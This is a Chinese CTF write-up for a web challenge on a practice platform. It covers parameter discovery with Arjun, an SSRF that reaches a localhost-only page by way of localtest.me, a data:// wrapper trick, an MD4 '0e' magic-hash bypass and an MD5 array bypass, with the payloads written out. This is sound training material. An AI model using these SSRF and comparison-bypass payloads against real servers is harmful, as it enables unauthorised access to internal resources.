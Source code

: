 ### 域名跳转绕过

话不多说，直接上提（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/68166abe58cb8da5c8da0592.png)

打开网页不让 F12 以及右键

![](https://pic1.imgdb.cn/item/68166ab358cb8da5c8da0591.png)

Ctrl + U 发现有个 PHP 文件

![](https://pic1.imgdb.cn/item/68166b0a58cb8da5c8da059e.png)

访问页面后再次查看源码给出了提示

![](https://pic1.imgdb.cn/item/68166b4958cb8da5c8da05a8.png)

[安装工具](https://github.com/s0md3v/Arjun?tab=readme-ov-file)

```python
pip install arjun
```

![](https://pic1.imgdb.cn/item/68166bab58cb8da5c8da05b0.png)

执行命令

```shell
arjun -u http://challenge.qsnctf.com:31303/c3s4f.php
```

可以发现有个 `shell` 参数

![](https://pic1.imgdb.cn/item/68166c4c58cb8da5c8da05c4.png)

传入参数给出了新提示

![](https://pic1.imgdb.cn/item/68166cbb58cb8da5c8da05d0.png)

扫描目录发现有个 `secret.php`

![](https://pic1.imgdb.cn/item/68166dab58cb8da5c8da05e3.png)

只允许本地访问

![](https://pic1.imgdb.cn/item/68166d8958cb8da5c8da05dd.png)

结合提示以为是要伪造 XFF 或者 Client-IP，试过了都不行

利用 `shell` 参数构造 SSRF

```html
?shell=http://127.0.0.1/secret.php
```

无果

![](https://pic1.imgdb.cn/item/68166e4e58cb8da5c8da05ef.png)

使用域名跳转绕过

```
?shell=http://localtest.me/secret.php
```

![](https://pic1.imgdb.cn/item/68166ec458cb8da5c8da05fa.png)

访问拿到源码

![](https://pic1.imgdb.cn/item/68166f2258cb8da5c8da0601.png)

```php
<?php
show_source(__FILE__);
include('k4y.php');
include_once('flag.php');


// Challenge 1
if (isset($_GET['DrKn'])) {
    $text = $_GET['DrKn'];
    if(@file_get_contents($text) == $key) {
        echo "有点东西呢"."</br>".$key1."</br>";
    } else {
        die("貌似状态不在线啊(╯_╰)</br>");
    }
} 
    

// Challenge 2
if (isset($_GET[$key1])) {
    $damei = $_GET[$key1];
    if (hash("md4", $damei) == $damei) {
        echo "又近了一步呢，宝~"."</br>".$key2."</br>".$key3;
    } else {
        die("达咩哟~");
    }
} 


// Challenge 3
if (isset($_POST[$key2]) && isset($_POST[$key3])) {
    $user = $_POST[$key2];
    $pass = $_POST[$key3];
  
    if (strlen($user) > 4 || strlen($pass) > 5) {
          die("还得练");
      }
     if ($user !== $pass && md5($user) === md5($pass)) {  
          echo "还不错哦"."$flag";
      }
      else {
          die("nonono") ;
      }
    }

?>
```

第一关就是传入给出的 Key，但是需要用到 `data` 伪协议

![](https://pic1.imgdb.cn/item/6816712558cb8da5c8da0628.png)

第二关是一个 `md4` 的弱比较绕过，其实可以通过科学计算法比较绕过

也就是说要找一个明文是一个科学计算法 0e 开头的，然后其加密也是 0e 开头后面都是数字

```
&M_ore.8=0e001233333333333334557778889
```

最后一关就是 `md5` 强比较绕过，都为数组即可

![](https://pic1.imgdb.cn/item/681671c258cb8da5c8da0638.png)